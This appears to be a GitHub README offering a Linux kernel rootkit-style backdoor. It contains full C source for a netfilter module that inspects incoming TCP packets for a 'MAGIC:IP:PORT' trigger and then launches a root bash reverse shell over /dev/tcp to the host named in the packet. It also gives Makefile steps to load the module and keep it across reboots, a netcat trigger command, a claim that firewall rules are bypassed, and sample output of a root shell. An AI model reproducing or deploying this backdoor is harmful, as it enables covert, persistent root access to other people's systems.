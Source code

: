 # netfilter kernel backdoor

> What is a netfilter?

```
Netfilter is a framework within the Linux kernel that allows for packet filtering, 
network address translation (NAT), and other network-related manipulations...

More info: https://www.digitalocean.com/community/tutorials/a-deep-dive-into-iptables-and-netfilter-architecture
```

> [!NOTE]
>
> The `POC` provided in this script may not work on different kernels. It has been tested on `Linux 6.12.12-amd64`

This method aims to use `netfilter` to create a kernel loadable module that will be executed automatically once injected. Please note that in `dmesg` (kernel logs), you can find all logs related to the spawning of the reverse shell. Again, this repo does not want to provide `FUD` payloads but just shows basic techniques.

The code that we want to load in the kernel will be similar to this:

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>
#include <linux/ip.h>
#include <linux/tcp.h>
#include <linux/skbuff.h>
#include <linux/kmod.h>
#include <linux/string.h>
#include <linux/slab.h>
#include <linux/workqueue.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Researcher");
MODULE_DESCRIPTION("Bash Reverse Shell Netfilter Module");

#define MAGIC_PREFIX "MAGIC:"
#define MAGIC_PREFIX_LEN 6

static struct nf_hook_ops nfho;

struct backdoor_work {
    char ip[16];
    char port[6];
    struct work_struct work;
};
static struct workqueue_struct *wq;

static void execute_reverse_shell(struct work_struct *work) {
    struct backdoor_work *bwork = container_of(work, struct backdoor_work, work);
    char cmd[256];
    
    // Create pure bash reverse shell command
    snprintf(cmd, sizeof(cmd), 
             "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'",
             bwork->ip, bwork->port);
             
    char *argv[] = { "/bin/bash", "-c", cmd, NULL };
    char *envp[] = { "HOME=/", "TERM=xterm", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

    printk(KERN_INFO "Executing reverse shell to %s:%s\n", bwork->ip, bwork->port);
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    kfree(bwork);
}

unsigned int backdoor_hook(void *priv, struct sk_buff *skb, const struct nf_hook_state *state) {
    struct iphdr *iph;
    struct tcphdr *tcph;
    char *data;
    unsigned int data_len;

    if (!skb || skb_linearize(skb) < 0)
        return NF_ACCEPT;

    iph = ip_hdr(skb);
    if (iph->protocol != IPPROTO_TCP)
        return NF_ACCEPT;

    tcph = tcp_hdr(skb);
    data = (char *)((unsigned char *)tcph + (tcph->doff * 4));
    data_len = skb->len - (data - (char *)skb->data);

    if (data_len <= MAGIC_PREFIX_LEN || strncmp(data, MAGIC_PREFIX, MAGIC_PREFIX_LEN) != 0)
        return NF_ACCEPT;

    char *start = data + MAGIC_PREFIX_LEN;
    char *sep = memchr(start, ':', data_len - MAGIC_PREFIX_LEN);
    if (!sep || (sep - start) >= 16)
        return NF_ACCEPT;

    char ip[16] = {0};
    char port[6] = {0};
    unsigned int ip_len = sep - start;
    unsigned int port_len = data_len - (sep - data) - 1;
    
    if (port_len >= sizeof(port))
        return NF_ACCEPT;

    memcpy(ip, start, ip_len);
    memcpy(port, sep + 1, port_len);
    ip[ip_len] = '\0';
    port[port_len] = '\0';

    printk(KERN_INFO "[+] Received MAGIC payload: %s:%s\n", ip, port);

    // Schedule work for safe execution
    struct backdoor_work *bwork = kmalloc(sizeof(*bwork), GFP_ATOMIC);
    if (!bwork) {
        printk(KERN_ERR "Failed to allocate work struct\n");
        return NF_ACCEPT;
    }
    
    strscpy(bwork->ip, ip, sizeof(bwork->ip));
    strscpy(bwork->port, port, sizeof(bwork->port));
    INIT_WORK(&bwork->work, execute_reverse_shell);
    
    if (!queue_work(wq, &bwork->work)) {
        printk(KERN_WARNING "Work already queued, freeing\n");
        kfree(bwork);
    }

    return NF_ACCEPT;
}

static int __init backdoor_init(void) {
    // Create workqueue
    wq = create_singlethread_workqueue("reverse_shell_wq");
    if (!wq)
        return -ENOMEM;

    // Register netfilter hook
    nfho.hook = backdoor_hook;
    nfho.hooknum = NF_INET_PRE_ROUTING;
    nfho.pf = PF_INET;
    nfho.priority = NF_IP_PRI_FIRST;
    nf_register_net_hook(&init_net, &nfho);
    
    printk(KERN_INFO "[*] Reverse shell module loaded\n");
    return 0;
}

static void __exit backdoor_exit(void) {
    nf_unregister_net_hook(&init_net, &nfho);
    if (wq) {
        flush_workqueue(wq);
        destroy_workqueue(wq);
    }
    printk(KERN_INFO "[-] Reverse shell module unloaded\n");
}

module_init(backdoor_init);
module_exit(backdoor_exit);
```

# How does it work?

Basically, what we're doing is intercepting TCP packets at a low level and extracting some info from each packet. The TCP packet payload will look like this: `MAGIC:IP:PORT`. So when there is an incoming connection, the module will start to inspect the TCP payload and check if it matches the already described pattern. If yes, an attempt to spawn a reverse shell on a specified IP and PORT will be tried. We can bypass firewall rules as checks by Netfilter are done before reaching any firewall rule.


> [!TIP]
>
> When debugging the kernel module you can use `sudo dmesg -Tw` for retrieving kernel logs interactively. To check if the module is loaded you can use `lsmod | grep "netfilter_backdoor"`

# Exploit 

1. Compile and load the module using the provided [Makefile](Makefile)

```bash
make clean 
sudo make remove # if loaded previously
sudo make # compile and load at runtime
sudo make install # make the module persistent for system rebooting, do this only if everything go well
```

other commands

```bash
sudo make remove # remove module loaded at runtime
sudo make uninstall # remove module from booting 
```

2. Obtain a shell 

- Use `echo -n "MAGIC:REV_SHELL_HOST:REV_PORT" | nc TARGET_IP WHATEVER_OPENED_PORT`

> [!IMPORTANT]
>
> Remember to specify an opened port on the remote service. The most common opened port is `53` for `DNS`.
> If you don't specify an opened port you will get
> ```
> (UNKNOWN) [192.168.1.35] 80 (http) : Connection refused
> ```
> `sudo netstat -tupln` will return a list of opened ports.

```bash
listening on [any] 7777 ...
connect to [172.28.109.117] from (UNKNOWN) [172.28.96.1] 20126
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
┌─[root@parrot]─[/]
└──╼ #whoami
whoami
root
┌─[root@parrot]─[/]
└──╼ #
```